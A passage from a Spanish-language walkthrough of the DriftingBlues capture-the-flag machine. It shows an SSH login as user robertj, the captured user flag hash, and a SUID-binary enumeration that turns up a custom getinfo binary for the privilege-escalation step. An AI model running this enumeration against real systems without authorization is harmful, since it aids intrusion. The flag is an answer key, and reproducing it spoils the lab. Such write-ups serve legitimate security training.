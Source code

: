 Echo esto desde nuestro `host` vamos a conectarnos con dicho usuario con nuestra clave `PEM` desde el `host`.

```shell
ssh -i ~/.ssh/id_rsa robertj@<IP>
```

Info:

```
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
robertj@driftingblues:~$ whoami
robertj
```

Con esto veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
413fc08db21285b1f8abea99040b0280
```

## Escalate Privileges

Si hacemos el `id` veremos esto:

```
uid=1000(robertj) gid=1000(robertj) groups=1000(robertj),1001(operators)
```

Veremos que pertenecemos al grupo `operators`, pero si listamos los permisos `SUID` que tenemos veremos esto:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
25269    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
    21909     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    16365     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
       81     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
    31095     20 -r-sr-s---   1 root     operators     16704 Jan  4  2021 /usr/bin/getinfo
     4028     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
       76     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
     4030     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
     3547     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3694     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       79     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
       77     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
```
